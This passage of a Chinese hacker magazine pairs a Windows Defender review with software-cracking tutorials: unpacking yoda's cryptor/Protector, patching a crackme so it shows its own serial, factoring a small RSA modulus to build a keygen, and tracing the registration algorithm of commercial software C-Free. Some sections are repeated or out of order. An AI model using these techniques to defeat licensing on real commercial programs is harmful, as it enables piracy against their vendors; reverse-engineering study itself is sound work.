> **编辑点评：** 如果跨站结合 SESSION 会话劫持和转移的话，危害会更大，当然也难以利用。

## 心语栏“兽”

目前国内的各大杀毒厂商都加强了对流氓软件的重视，纷纷开发出反流氓软件程序并提供免费下载，而流氓软件的势力非但没降反增，气焰十分嚣张，老大 Microsoft 也终于坐不住了，在线 Windows Antispyware 后推出了它的新版本并更名为 Windows Defender，可见流氓软件造成多坏的影响，至少小编对它极为反感。本期 OFFICE38 给大家带来的就是这款 Windows Defender，期望它能还你一个清净的 Windows。

哥，国布衣

# 微软反间谍软件

Windows Defender

从本文中你可以学到！

- Windows Defender 的使用

Windows Defender 的安装和其它的应用程序一样，用户根据向导就可以很快地完成程序的安装。在安装的时候，安装程序会询问你是按照系统默认设置，还是进行自定义安装，而这个安装过程看起来就好像是在自动更新一样。正式版的 Windows Defender 新增了对 64 位 Windows XP 和 Windows Server 2003 的支持，但是却放弃了原先测试版对 Windows 2000 的支持，据微软称原因是对这个操作系统支持已经过时。

## 一、系统要求

Windows Defender 的安装和其它的应用程序一样，用户根据向导就可以很快地完成程序的安装。在安装的时候，安装程序会询问你是按照系统默认设置，还是进行自定义安装，而这个安装过程看起来就好像是在自动更新一样。正式版的 Windows Defender 新增了对 64 位 Windows XP 和 Windows Server 2003 的支持，但是却放弃了原先测试版对 Windows 2000 的支持，据微软称原因是对这个操作系统支持已经过时。

## 二、全新的一切

Windows Defender 的外观较上一版有了非常大的改进，与整合在 Vista 中的 Defender 外观非常的相似，这样可以让用户操作更简单。程序运行后首先会提示用户进行数据库的升级，这样以后才能有效地对付各种最新的间谍软件。新前台界面实际上是 Windows Defender 的功能版面，在更新到最新的间谍软件数据库以后，用户就不会再为它担这道了，除非你手工加载应用程序或实时问题显示。与 Vista 中的应用程序不同，Windows Defender 中使用的 UI 看起来恰到好处。不再有传统的顶部工具栏，取而代之的是新的工具栏，有后退、前进、Home、Scan、History、Tools、Help 等功能按钮。

升级完成后，点击“Scan”按钮开始快速扫描。也可以单击 Scan 按钮旁的下拉三角，从中可以选择快速扫描、全部扫描，以及自定义扫描等方式，然后对系统进行扫描，如图1。

由于微软改进了引擎扫描，所以扫描的时间大大地缩减了。完成后，程序会报告用户系统的安全情况，包括扫描文件的数量、扫描所用的时间，以及系统是否存在已知的间谍软件。

图1 扫描选项

如果发现系统中已经存在间谍软件的话，程序就会提醒用户注意，这时只需要点击“Remove All”按钮就可以全部清除，如图2。如果用户在安装应用程序的时候，应用程序捆绑了其它的文件，那么 Windows

## office38 续

Defender 的实时监控功能就会弹出一个对话框，询问用户是删除还是忽略，如图3。即使在选择“运行”命令后，它仍会弹出窗口，以试图阻止间谍软件的运行。

点击操作界面的“History”按钮，可以查看到以前关于间谍软件的历史记录，包括什么时候发现了什么间谍软件，用户当时所采取的操作方法等，如图4。

在 Tools 界面的选项中，你可以看到许多设定和工具，它包括 Options（选项）、Software Explorer（软件管理器）、Quarantine items（隔离区）、Allowed items（白名单）等。点击“Tools and Settings”中的“Options”按钮，在弹出的窗口中就可以按照自己的意愿来设置 Windows Defender，设置的内容包括自动扫描、默认操作、实时监控、高级设置等。如果用户不熟悉的话，最好还是采用程序的默认设置。

“Software Explorer”命令主要用于防止用户被网络钓鱼，从而有效地保护系统中和用户相关的个人信息。微软接手后对这个反间谍工具进行了改进，并增加了阻击弹出式广告和其他影响电脑性能的恶意软件的功能。这是一个非常有用的工具。在这里你可以查看或者修改那些难以修改的系统设置，它允许你查看目前电脑上运行的程序、启动项、网络程序等类别，在不同的类别中，程序按照不同的原则进行分组，这样用户就可以很方便地查看到非微软的内容。另外，用户还可以对其中每个项目的属性进行查看，并对不需要的项目进行删除或结束操作，如图5。

“Quarantine items”功能可以看作是 Windows Defender 的隔离区，添加到这里的文件将不能被用户运行，直到用户还原这些文件或移出这些文件为止；“Allowed items”功能也就是我们常见的“白名单”，只要添加到这个名单中的文件，Windows Defender 就不会对其进行监控。如果文件从白名单中删除掉，那么程序就会立即重新开始对它的监控。除了界面的改进之外，软件的内核也进行了实质性变化。在保持一贯的高安全性的同时，加入了对 ZIP 文件和其他文件格式的支持，可以在文件打开之前对文件进行扫描。除了能对 Windows XP SP2 和 Windows Server 2003 SP1 系统较好地支持外，Windows Defender 与 IE6 和 IE7 也能很好地兼容，并且能够对下载的文件进行扫描。除此以外，微软取消了托盘图标，让用户几乎注意不到它在运行。
## 三、小结

Windows Defender 将 Giant AntiSpyware 产品拥有的强大的间谍软件探测能力和卸载功能结合起来，将其变成了一个所有用户都应该下载安装的一流反间谍软件。简洁、有效、安静，作为一个反间谍软件，Windows Defender 做得不错，强烈推荐大家使用。

> [文章中涉及到的工具 Windows Defender 光盘中有收录]

# 编辑点评

看到 Windows Defender 的界面，感觉还是那样的专业与权威。记得 Windows AntiSpyware 刚出来的时候，用户对它的评价并不怎么高。微软的有些产品是声造得很大，界面也相当华丽，但实用性却不尽如人意。经过作者的介绍，大家对微软的这款升级版 AntiSpyware 有了基本认识吧！期待 Windows Defender 的出色表现！

- rain 栏·兽·RAP
- 你说偶写写程序的潜力
- 可 rain 打死也不要做程序员
- 原因很简单：
- 狗熊是笨死的
- 程序员是累死的
- 没日没夜地写代码
- 写到天顶
- 写到满脸颓废的胡渣
- 搞得自己比前面更有“男人味”了
- 从此晚上不敢散步走夜路了
- 也因此女性的江湖都绝种了
- GF 说你有安全感多了
- 因为她相信你再也不敢吸引其他女孩子了
- 软件还没发布呢，东东就被盗了
- 钱包空了，抽屉里只剩跑腿了
- 无意间 google
- KAO，刚刚发布的共享软件被人破解了
# 做客资源

# CZG 成员破解文集

phoenix|ne 收集整理

本文集收集了众多 CZG 成员的破解文章，都是经典的破解教程，涵盖范围广泛，方法多样，非常适合破解爱好者借鉴学习。它的界面如图1，以 exe 电子书形式收集整理。

> [光盘中有提供]
# 破解前奏之手脱 yoda's cryptor 1.2 & Protector 1.3

- 从本文你可以学到：
- 手脱 yoda's cryptor
- 手脱 yoda's Protector 1.3

学习前面两期的《破解前奏之手脱 FSG 快速攻略》和《破解前奏之手脱 tElock 0.98b 的几种方法》，不知道大家是否有掌握到方法。如果还没悟的话，那么就继续努力哦。这次我又给大家带来了作者写的两个不同版本的壳，就是 yoda's cryptor 1.2 和 yoda's Protector 1.03，还是老熟家伙，跟我一起去脱脱脱吧：

> ### 小知识

yoda's cryptor 1.2 没有 OEP stolen code、Replace code、IAT 加密、分段加密等障碍，而且没有对原程序压缩；而 Yoda's Protector 是一款 EXE 加壳与保护工具。它同样还支持动态链接库（DLL）、OLE-ActiveX 控件（OCX）、屏幕保护程序（SCR），支持多种 PE 格式文件。

| 需要准备的工具 |
|---|
| PeID v0.94（用于检测 PE 文件是否加壳） |
| OllyDBG v1.1（下简称 OD，用于动态调试） |
| LordPE v1.4（脱壳辅助工具） |
| ImportREC v1.6 Final（脱壳辅助工具） |
| Brain（这个是非常重要的，没有它，你根本不可能实现以下过程） |

## 一、yoda's cryptor 1.2 脱壳过程

yoda's cryptor 1.2 是风飘雪老师在第六期的文章留给我们的练习，目标程序来源于《黑客手册》光盘，这次的对象就是它了。使用 OD 载入带 yoda's cryptor 1.2 壳的“读者练习题.EXE”，因为之前已经使用 PeID v0.94 检测过，所以查壳这一步骤就略过。下面用两种方法来详细说明一下如何脱掉 yoda's cryptor 1.2 壳。
### 方法一

脱壳前，先对 OD 的“调试设置—异常”设置一下，除了“忽略在 KERNEL32 中的内存访问异常、非法访问内存、同时忽略以下指定异常或范围”不打勾，其余的全部打勾，如图1所示。
```text
0040D76D    0000           add byte ptr ds:[eax],al
0040D76F    0000           add byte ptr ds:[eax],al
0040D771    0000           add byte ptr ds:[eax],al
0040D773    0000           add byte ptr ds:[eax],al
```

看到 0040D76B 就是程序经过最后一次异常，如果再按一次 Shift+F9 的话，那么程序就运行了。观察堆栈，找“SE 句柄”的那一行，有一个地址：

```text
0012FFBC    0012FFE0    指针到下一个 SEH 记录
0012FFC0    0040D70C    SEH 句柄
0012FFC4    7C8123CD    返回到 kernel32.7C8123CD
```

OK，直接 Ctrl+G 来到 0040D70C 处，在这个地址处 F2 下断点，Shift+F9 运行就会中断。

```text
0040D70C    55                    push ebp
0040D70D    8BEC                  mov ebp,esp
0040D70F    57                    push edi
0040D710    8B45 10               mov eax,dword ptr ss:[ebp+10]
0040D713    8BB8 C4000000         mov edi,dword ptr ds:[eax+C4]
0040D719    FF37                  push dword ptr ds:[edi]
0040D71B    33FF                  xor edi,edi
0040D71D    64:8F07               pop dword ptr fs:[edi]
0040D720    8380 C4000000 08      add dword ptr ds:[eax+C4],8
0040D727    8BB8 A4000000         mov edi,dword ptr ds:[eax+A4]
0040D72D    C1C7 07               rol edi,7
0040D730    8988 B8000000         mov dword ptr ds:[eax+B8],edi
0040D736    B8 00000000           mov eax,0
0040D73B    5F                    pop edi
0040D73C    C9                    leave
0040D73D    C3                    retn
```

当走到 0040D73B 的时候，我们注意信息窗口：

```text
堆栈 [0012FBEC]=00000000
edi=004010CC（读者练习）004010CC


```

继续 Ctrl+G 去到 004010CC 处，下断点，Shift+F9 运行就会中断。到了这里就可以打开 LordPE v1.4 将程序 Dump 出来了，打开导入修复工具 ImportREC v1.6 Final 来修复一下，OEP 处填入：10CC，点“自动查找 IAT”，再点“获取输入表”，再点“显示无效函数”。这里看到有很多无效函数，如图2所示。但是这些函数是有用的，我们不能 CUT 掉，CUT 掉的话，脱壳后的程序就无法正常运行了。所以这里选中所有的无效函数，按“右键→跟踪级别 1（反汇编）”来修复这些函数，再点一次“显示无效函数”，发现所有函数都已经找到，没有无效的函数了，现在就可以点“转储文件”了。脱壳后，使用 PeID 检测是 Microsoft Visual C++ 6.0 SPx Method 1。
### 方法二

使用 ESP 定律和内存断点的完美组合轻轻松松脱壳。OD 载入后动手前，请设置一下“异常”项，忽略所有异常：

```text
0040D060 > 60                pushad
0040D061   E8 00000000       call 读者练习0040D066
0040D066   5D                pop ebp
```

在命令行中输入“hr esp”，回车一下使断点生效；F9 运行，硬件断点中断在下面：

```text
0040D75B   50                push eax
0040D75E   33C0              xor eax,eax
0040D760   64:FF30           push dword ptr fs:[eax]
0040D763   648920            mov dword ptr fs:[eax],esp
0040D766   EB 01             jmp short 读者练习0040D769
```

现在打开内存镜像，找到下面信息并下“内存访问断点”：

```text
AMEMORY，项目 23
地址=00401000
大小=00004000（16384）
物主=读者练习00400000
区域=.text
包含=code
类型=imag 01001008
访问=RW，CopyOnWr.
初始访问=RWE


```

按 Shift+F9 运行，就会中断在 OEP 处了，Dump 出来后，具体修复方法前面的方法一已有详细说明。到这里这个壳就用两种方法详细介绍完了，如果还不成功的话，请多练习几次，所谓熟能生巧嘛。

## 二、yoda's Protector 1.3 脱壳过程

下面我们再来看 yoda's Protector 1.3，这次打开的目标就是 WinTopo Pro V3.01。yoda's Protector 1.03 对新手来说可能会比较难一点，因为这个是属于那种变形的一类，这里介绍一个技巧性的方法，使和我一样菜鸟的朋友们也能够轻松脱壳（注：此法并不一定能脱掉此壳）：

> 小知识：WinTopo 是一个将光栅（raster image）转换成向量（vector）图像的工具。WinTopo 将光栅图像的线性和多线节点转换成相应的矢量图像。此程序可转换扫描的地质图或者工程绘图。主要功能包括：输入高达 24 位 RGB 格式 BMP、TIFF、GIF 文件；以多种文件格式输出，如 ARC、DXF、Mapinfo、MIF、TXT；使用 Canny 方法进行边缘检测等。

首先使用 PeID 检测为 yoda's Protector 1.3 -> Ashkbiz Danehkar，再使用 PeID 的插件 Generic OEP Finder 找到它的 OEP（一般的 PeID 都会包含这个插件的，大家不用担心找不到），OEP：00479640，如图3所示。
好，现在使用 OD 载入目标程序：

```text
0055A060 > 55                push ebp
0055A061   8BEC              mov ebp,esp
0055A063   53                push ebx
0055A064   56                push esi
```

直接 Ctrl+G 到 00479640 地址处。

```text
00479640   A5                movs dword ptr es:[edi],dword ptr ds:[esi]
```

```text
text
ptr ds:[esi]      ; 来到这里，右键下硬件执行断点
00479641  695403F3 C1D195  imul edx,dword ptr ds:[ebx+eax-0FA95D1C]
00479649  D2BCCF E0D5CD38  sar byte ptr ds:[esi+ecx*8+38CD05E0],cl
00479650  20CA             and dl,cl
```

F9 运行，00479640 这里已经变成了下面的代码了：

```text
00479640  55               push ebp
00479641  8BEC             mov ebp,esp
00479643  6A FF            push -1
00479645  68 E01D4A00      push Topo.004A1DE0
0047964A  68 F0974700      push Topo.004797F0
jmp to msvcrt_except_handler3


```

图4所示。

不过这里需要自己手动寻找 IAT 的信息，具体我在第七期讲得很清楚了，如果你还不懂的话，赶快翻回第七期来看。
## 三、后记

本文带有一定的技巧性，所以介绍的方法不一定能脱掉所有 yoda 的壳，因此方法肯定不止这两种。如果你还有什么好的方法，可以到《黑客手册》官方论坛发帖一起交流。

> **编辑点评：**
>
> 本文技巧性强，作者对目标采取了灵活的处理方法，有时候这些思路用来对付其他的壳也是一个不错的选择哟。当你基础掌握了，经验和思路就是至关重要的了。破解更是如此。

到这里就可以拿出 LordPE 将程序 Dump 出来了，具体修复方法请看前面的方法，这里不再赘述。当然了，有时候并不能称心如意地轻松找到 OEP，所以下面再介绍一个比较快捷的方法，就是使用脱壳脚本。这里推荐使用 fly 大侠写的脱壳脚本，OD 载入后，点击“插件→ODbgScript”就可以打开一个对话框，选择“yoda's Protector V1.03.X.osc”就可以很轻松地到达 OEP，如

# OllyDbg 断点技术与程序自我注册技巧

风飘雪

# 从本文你可以学到

- OllyDbg 中如何为 API 函数下断点
- 替换地址破解法

很多破解初学者问我，OllyDbg 中如何为 API 函数下断点、“锁定”的概念很抽象，究竟是什么东西等问题。我以一个程序自我注册的例子一并讲解一下，希望能给读者以启迪，读后能豁然开朗，茅塞顿开。

程序自我注册，国外常称为 keygen injection，即 KI 技术。其特点是利用现有程序的算法，使程序自己告诉我们注册码，从而把程序改造成自己的打手、终结者和改装——注册机。

其实其方法主要是通过利用注册错误弹出的“注册码错误”之类的消息框。

一般的注册流程如下：

- 压入正确东西
- 压入我们输入的错误的东西
- 进行比较
- 正确则显示提示“注册正确”的消息框
- 错误则显示提示“注册码错误”的消息框

注意上面标粗的地方。

我们将第一行存放正确东西的地址，替换存放“注册码错误”的地址。悄悄地进行了偷梁换柱、狸猫换太子，而程序并不知道，被蒙在鼓中，继续默默地、傻呵呵地运行，一切尽在我们的掌控之中。看你孙猴子也逃不出我如来的手掌心！

消息框函数 MessageBox 主要有 3 个参数：句柄、标题地址、正文地址。其中，我们修改的主要是正文地址。

例如 chap201.exe。

运行程序，输入任意注册码，弹出消息框函数 MessageBox。CrackMe 是消息框的标题，Incorrect try again! 是消息框的正文，也是我们锁定的暗杀对象和目标，如图1。

OllyDbg 载入程序，在命令行输入：bp GetDlgItemTextA，

注意大小写，如图2所示。

回车，断点就设好了。大小写不正确，是无法下断成功的，切记！

点 F9 运行程序，随意输入注册码 1111，点 check 按钮，被断，停在如图3的地方。

其中，77xxxxxx 是系统函数的地址，系统地带（8位），任何
# CRACKER

一款应用程序访问用 GetDlgItemTextA 都会来到这里，虽然在这通用的东西里打转，纯粹进行研究是没有任何意义的。我们需要返回程序自己的用户代码（user code，即“我的地盘听我的，我的领空”）程序段。我们知道一个很棒的 ALT+F9，等同于昔日调试英雄 TRW 软件中的 pmodule，可以迅速来到程序的领空（一般为 40xxxx）。使用前，记得先清掉断点。bp 是设断，bc 是清断。命令行中打入 `bc GetDlgItemTextA`，回车即可。ALT+F9 一下来到图 4 的地方。

```asm
lea ecx,dword ptr ss:[ebp-1C]
push ecx
lea edx,dword ptr ss:[ebp-C]
push edx
call dword ptr ds:[<&KERNEL32.lstrcmpA>]
test eax,eax
jnz short chap201.004015AD


```
```asm
push chap201.0040306C
lea edx,dword ptr ss:[ebp-1C]
push edx
nop
mov ecx,dword ptr ss:[ebp-20]
call {jmp.AHFC42.#4224_CWnd::MessageBoxA}


```
关键比较，如图 5。`[ebp-1C]` 装真码，`[ebp-C]` 装我们输入的所谓假码 1111。我们对 Incorrect try again! 所在行 `push 403074` 进行修改，利用上面的，改成下面的，如图 6。保存即可，步骤 1，如图 7。步骤 2，如图 8。运行新文件，随意输入注册码，如图 9，成功！
继续改进使它完美：程序没有输入注册码时，点 check 按钮，会出现图 10 的消息框。程序通常都会这样，提示你注册码不能为空。这里需要爆破掉，跳过即可。相信这个初级的东西，我们聪明的读者都会。为讲解下断，我拦截消息框看能否定位修改点。用 OllyDbg 载入修改后的程序，F9 运行，下断 `MessageBoxA`，点 check 按钮，被断，查看堆栈窗口，如图 11。定位这个位置，如图 12。显然，把 40156D 处的 jnb 改为 jmp 即可，如图 13。保存文件，运行程序，什么都不输入，直接点 check 按钮，如图 14。
```asm
00401569  cmp dword ptr ss:[ebp-10],1
0040156D  jnb short chap201x.00401585
0040156F  push 40


```
```asm
837D F0 01
jmp short chap201x.00401585
6A 40


```
注册码直接弹出，终于完美了！

> 编辑点评：本文也算是爆破的一种，不同的是作者巧妙地替换地址，让程序自己把正确的注册码告诉我们。可见爆破也并不像想象中的简单，它也有许多的方法和技巧，我们要学的只是适当地运用它们。

# 密码学算法之 RSA

- 从本文你可以学到：
- 什么是 RSA 算法
- RSA 的破解方法

RSA 密码系统为每个用户分配两对密钥（公钥和私钥），即公钥 `(e，n)` 和私钥 `(d，n)`，其中 `(e，n)` 用于加密报文，`(d，n)` 用于解密报文，广泛应用于加密和数字签名方面，如现在已延伸到电子纳税申报，公钥或者私钥都可用作加密。

预备理论知识（比较枯燥）：RSA 算法是第一个既能用于数据加密也能用于数字签名的算法。它易于理解和操作，也很流行。算法的名字以三个发明者的名字命名：Ron Rivest、Adi Shamir 和 Leonard Adleman。RSA 的基础是数论的欧拉定理，它的安全性依赖于大数因数分解的困难性。但 RSA 的安全性一直未能得到理论上的证明。它经历了各种攻击，至今未被完全攻破。

RSA 密码系统为每个用户分配两对密钥（公钥和私钥），即公钥 `(e，n)` 和私钥 `(d，n)`，其中 `(e，n)` 用于加密报文，`(d，n)` 用于解密报文。

## RSA 加密算法的原理

1. 取两个素数 p 和 q（保密）；
2. 计算 `n=p×q`（称为模数，公开），`φ(n)=(p-1)×(q-1)`（保密）；
3. 随机选取整数 e（称为公钥，公开），且满足 `gcd(e, φ(n))=1` 且 `e<(p-1)×(q-1)`（一般 `e=3`）；
4. 计算 d，满足 `de≡1 (mod φ(n))`（d 称为私钥，保密）。

利用 RSA 加密，第一步需要将明文数字化，并取长度小于 `lg2n` 位的数字作明文块。加密算法 `C=E(M)=M^e (mod n)`，其中 M 为明文，C 为密文。解密算法 `M=D(C)=C^d (mod n)`，用私钥 d 对密文 C 解密，得到明文 M。

例如：假定用户 A 要将明文“HI”加密传送给用户 B，则 B 可以取两个素数 `p=5` 和 `q=11`（保密）；计算 `n=p×q=5×11=55`（公开，公钥），`φ(n)=(p-1)×(q-1)=4×10=40`（保密）；随机选取整数 `e=3`（公开），满足 `gcd(e, φ(n))=1`；由 `de≡1 (mod φ(n))` 得 `d=27`（保密，私钥）。因为，`27×3 mod 40 = 81 mod 40 = 1`。

利用 RSA 加密，第一步需要将明文数字化，假定 A、B 统一明文编码方式为空格=00，A=01，B=02，C=03，…Z=26，则明文数字化 HI 为 08、09，A 用 B 的公钥 `(3，55)` 将数字化明文信息由 `C=E(M)=M^e (mod n)=8^3 mod 55、9^3 mod 55`，加密得密文信息为 17、14。用户 B 收到密文信息，由 `M=D(C)=C^d mod n = 17^27 mod 55、14^27 mod 55` 解密得 08、09，将其转化为明文“HI”。

（3）解密：`M=C^d mod n`，用私钥 d 对密文 C 解密，得到明文 M。

# 例 1：dihux 的 keygenme1.exe

该程序的“关于”写明为 RSA200，但这是 crackme。我们所对付的一般程序是不会告诉你所采用的密码学算法的，我们需要自己用鼻子把它的气息闻出来、嗅探出来。

用 PEiD 扫描目标程序，用 Kanal 插件分析，如图 1。

点“Export”按钮，将扫描结果保存为文件，如下：
| Crypto name      | File offset | Virtual address |
|---|---:|---:|
| BASE64 table     | 00001BEE    | 004041EE        |
| BigLib.BigMod    | 00001406    | 00402006        |
| BigLib.BigPowMod | 00001604    | 00402204        |
| {Big number}     | 00001A1F    | 0040401F        |

BigPowMod 可以看出，采用了 RSA 算法。同时，明确地告诉我们，目标程序编程时采用了 BigLib 库。下面，用 IDA Pro 打开目标程序，利用图 2 的字符串参考。很容易来到这里，即图 3。
很难看出程序在干什么，可读性极差。下面按如图 4 所示的菜单操作；然后选取 biglib（图 5）。程序代码变为图 6。可读性大大提高。关键代码如下：

```asm
xor ecx, ecx
push 0
call _BigCreate@4
mov lpAddress[ecx*4], eax
inc ecx
cmp ecx, 6
jnz short loc_4010DA
push lpAddress
push 10h
push offset a8acfbd427cbc8c2024a30c9417bbca41af3fc3b ; "8ACFBD427CBC8C2024A30C9417BBCA41AF3FC3B"
call _BigIn@12
push dword_404415
push 10h
push offset unk_404019
call _BigIn@12
push dword_404425
push 10h
push offset byte_404349
call _BigIn@12
push offset String ; lpString
call lstrlenA
push dword_404419
push eax
push offset String
call _BigInB256@12
push dword_404421
push lpAddress
push dword_404415
push dword_404425
call _BigPowMod@16
mov eax, 1337h
push 0
push dword_404410
push eax
push dword_404421
call _BigDiv32@16
push dword_404410
push dword_404419
call _BigCompare@8
jnz short loc_40119C
push 0 ; uType
push offset Caption ; "INFO"
push offset Text ; "Serial is valid"
push [ebp+hWnd] ; hWnd
call MessageBoxA


```

为动态提示时查看方便，我们将其导入到 OllyDbg 中。如图 7，创建 MAP 文件。

然后，用 OllyDbg 中的 LoadMap 插件，将其导入，如图 8。

动态调试可知，如图 9。
# CRACKER

RSA（序列号）除 1337 = 姓名的 ASCII 码。

故序列号 = RSA（姓名的 ASCII 码 × 1337）。

`n=0x8ACFB4D27CBC8C2024A30C9417BBCA41AF3FC3BD9BDFF97F89`

`e=0x10001`

已知 n、e，下面计算密钥 d。
1. 填入 N  
   `N = 8ACFB4D27CBC8C2024A30C9417BBCA41AF3FC3BD9BDFF97F89`
2. 点 Factor N 按钮，几分钟后得出 P 和 Q
   - `P = 970E1A438A10E069571BDCCBB`
   - `Q = EB3FFE9F5C761995147C7A28B`
3. 点 Calc D 按钮，立刻得出  
   `d = 32593252229255151794D86C1A09C7AFCC2CCE42D440F55A2D`

最后，用 Visual C++ 和 MIRACL 大数库写出注册机。我写了 console 版和 windows 版各一个。windows 版核心代码如下：

```cpp
mip->IOBASE=16;
// 16进制模式
c=mirvar(0);
n=mirvar(0);
d=mirvar(0);
m=mirvar(0);
mul=mirvar(0x1337);
bytes_to_big(len, szName, c); // 将姓名转换成大数
cinstr(n,"8ACFB4D27CBC8C2024A30C9417BBCA41AF3FC3BD9BDFF97F89"); // 初始化模数n
cinstr(d,"32593252229255151794D86C1A09C7AFCC2CCE42D440F55A2D"); // 初始化私钥d
multiply(c,mul,c); // 姓名的大数乘以1337
powmod(c,d,n,m); // 计算 m = (c^d) mod n
```

```cpp
cotstr(m, szSerial); // 将 m 的16进制串表示写入 szSerial 中，即注册码
mirkill(c);
mirkill(n);
mirkill(d);
mirkill(m);
mirkill(mul);
mirexit();
SetDlgItemText(hWnd, IDC_TXT1, szSerial); // 显示正确的序列号


```

> 编者点评：

RSA 是一种非常优秀的算法，它的应用也很广泛。所以小编相信这篇文章会对你有帮助。
- 从本文你可以学到：
- 认识 keyfile 文件保护技术
- 算法分析的一般方法

现在的软件防止被人破解的方法可谓是五花八门，而在这些保护方法中采用“重启验证”形式作为保护方式的软件可谓是最常见的了，而这种方式又可再分为两种方式。在今年《手册》的第一期上我已经向大家介绍了其中的一种，也就是 keyfile 文件保护技术，这种技术的核心是：程序创建或者监视某一个特定的文件，当该文件发生变化时则采取相应的动作。今天我们就来看一下第二种保护方式，即程序将注册信息写入注册表，并在下次启动时读取注册表然后再进行验证。今天的破解对象是 C-Free，我手里的版本为 3.5。不知道高一点的版本的算法有没有改变，呵呵。

老规矩，看看有没有加壳先，如图 1。ASPack 2.12 是一个比较“老”的壳了，大家可以手脱，也可以用工具脱壳。脱壳不是本文的重点，我在这里就不再啰嗦了。用 PEiD 再侦测一遍脱壳后的文件，发现程序是用 C/C++ 写的，看来程序已经脱壳干净了。下面我们进入主题，看一下程序是怎样读取注册表并完成注册验证的。
在开始之前，我首先向大家介绍两个函数：**RegQueryValue** 和 **RegQueryValueEx**。这两个函数都是用来查询注册表用的，大家可以在 MSDN 中找到这两个函数的原型。一般重启验证型的软件中，都是用这两个函数来完成对注册表的查询工作的。

好了，下面用 OllyDbg（下文简称 OD）打开脱壳后的文件（载入之前最好将 C-Free 的十次试用次数用完，防止无用的调用对我们跟踪的影响），然后按 F9 让程序运行，等到出现注册的对话框后填入以下信息，如图 2。点“是”以后程序会自动关闭，这时我们按快捷键 Ctrl+F2 重新开始调试，然后按快捷键 Ctrl+I 调出程序的函数导入表，在随后出现的对话框中输入（直接在键盘上按字母就可以，不分大小写）：RegQueryValue。OD 会自动为我们定位函数。可以看到，程序是使用函数 RegQueryValueExA 来操作注册表的。下面，按 F2 键在这个函数上面设置一个断点。好了，回到按钮信息对话框，下面就等鱼儿上钩了。F9 让程序运行起来，不一会程序就会中断在 RegQueryValueExA 函数上面。
不过现在程序还没有运行，任何中断对我们来说都是没有意义的，所以继续 F9，大约按了 82 下 F9 后，OD 右边的寄存器窗口中出现以下的字符串，如图 3。翻译过来就是 MachineCode 的意思。如果继续 F9 的话，在右边的寄存器窗口中就会依次出现 RegistryCode 和 UserName 字符串，正好对应图 2 中的内容。
三个项目。

下面就到了本文的重点了，程序已经调用函数进行了注册码的查询。那么，程序是在什么时候对我们输入的信息进行验证的呢？这里我们可以有两个选择，一个是继续 F8 单步跟踪程序的运行，直到找到算法的关键 call；再一个就是在内存中找到我们输入的注册信息，然后设置硬件访问断点。第一种方法相对来说比较麻烦，所以这里我选择了第二种方法。首先按快捷键“Alt+M”调出“Memory Map”窗口，然后用鼠标激活第一行并按“Ctrl+B”打开搜索对话框，在随后出现的对话框的 ASCII 一栏中，填入图 2 中我输入的注册码：9776580，然后回车。这时 OD 会自动搜索程序的内存，在内存中寻找和我们提供的搜索条件相匹配的项目，不一会儿 OD 就搜索到在地址 00BB4088 处，记下这个地址，返回到调试窗口中去。在 OD 左下角的转储窗口中按快捷键“Ctrl+G”，然后输入地址 00BB4088。待 OD 定位到此地址后，在转储中选中字节串并单击鼠标右键，依次选择“断点”→“硬件访问”→“Byte”。这样，我们就设置好了内存访问断点，每当程序访问此地址时都会被 OD 断下。回到 OD 的主窗口后按“Alt+B”在出现的断点窗口中取消所有的函数断点，然后按 F9 让程序运行。不一会，程序就会断在 00BB4088 地址处，如图 4。
在这个程序中，程序将我们的假注册码和一个很可疑的字符串：3h8gg0hg 比较，而这个 3h8gg0hg 是可以注册成功的，如图 5。
从这个程序中返回后得到以下代码：

```asm
00419673    lea     eax, [ebp-804h]
text:00419679    push    eax
text:0041967A    mov     edx, [ebp-704h]
text:00419680    push    edx
text:00419681    call    SuanFa
text:00419686    mov     word ptr [ebx+10h], 4C4h
text:0041968C    add     esp, 8
text:0041968F    lea     edx, [ebp-884h]
text:00419695    lea     eax, [ebp-624h]
text:0041969B    call    sub_58BDE8
text:004196A0    inc     dword ptr [ebx+1Ch]
text:004196A3    mov     edx, [eax]
text:004196A5    mov     eax, [edi]
text:004196A7    mov     eax, [eax+8E8h]
text:004196AD    call    SysUtils.@CompareStr
```

`$qqrxj7System@AnsiStringt1`：比较函数在 00419681 处的 call，每经过这个 call 后内存中出现 3h8gg0hg 这个字符串。所以，可以确定 00419681 处的 call 就是算法关键的 call！下面，我们跟入这个 call，进行程序算法的分析。

```asm
text:00462A78 SuanFa proc near
text:00462A7E    xor     edx, edx
text:00462A80    push    ebx
text:00462A81    push    edi
text:00462A82    push    edi
text:00462A83    mov     ebx, 25h
text:00462A88    mov     ecx, [ebp+arg_0]
text:00462A8B    xor     ecx, 90909090h
text:00462A91    mov     eax, ecx
text:00462A93    div     ebx
text:00462A95    mov     eax, edx
text:00462A97    cmp     eax, 11h
text:00462A9A    jge     short loc_462A9F
text:00462A9C    add     eax, 11h
text:00462A9F loc_462A9F
```

```asm
text:00462A9F    push    eax                 ; 余数入栈，arg_8
text:00462AA0    lea     edx, [ebp+var_C]    ; 将变量地址传给 edx
text:00462AA3    push    edx                 ; 参数入栈，arg_4
text:00462AA4    push    ecx                 ; 机器码异或 90909090h 的结果入栈，arg_0
text:00462AA5    call    unknown_libname_103
```

算法小结：

XorMachineCode = 机器码 ^ 0x90909090。  
YuShu = XorMachineCode % 0x25。  
如果余数小于 0x11，就将余数加上 0x11。

算法还没有结束，需要继续跟入 00462AA5 处的 call。

```asm
text:00584CD0 unknown_libname_103 proc near
text:00584CD3    mov     eax, [ebp+YuShu]
text:00584CD6    mov     edx, [ebp+XorMachineCode]
text:00584CDC    cmp     eax, 0Ah
text:00584CDD    push    6h
text:00584CDE    setz    cl
text:00584CE1    and     ecx, 1
text:00584CE4    cmp     eax, 0Ah
text:00584CE7    push    ecx
text:00584CE8    push    eax
text:00584CE9    mov     ecx, [ebp+arg_4]
text:00584CEC    push    ecx
text:00584CED    jnz     short loc_584CF3
text:00584CEF    mov     eax, edx
text:00584CF1    jmp     short loc_584CF5
text:00584CF3 loc_584CF3
text:00584CF3    mov     eax, edx
text:00584CF5 loc_584CF5
text:00584CF5    push    eax
text:00584CF6    call    longtoa
text:00584CFB    add     esp, 14h
text:00584CFE    pop     ebp
text:00584CFF    retn
text:00584CFF unknown_libname_103 endp
```

这里作者很狡猾，很有可能是用花指令来迷惑破解者，虽然程序指令看起来和注册码相关的数据进行了处理，但是通过接下来的代码可以看到，这一部分的处理是完全无关的！继续跟入 00584CF6 处的 call `longtoa` 到 `longtoa+F` 处时，可以发现关键的地方了。在这个函数中有几个循环，只要搞清这几个循环整个算法就清楚了。所以大家要特别把握。

```asm
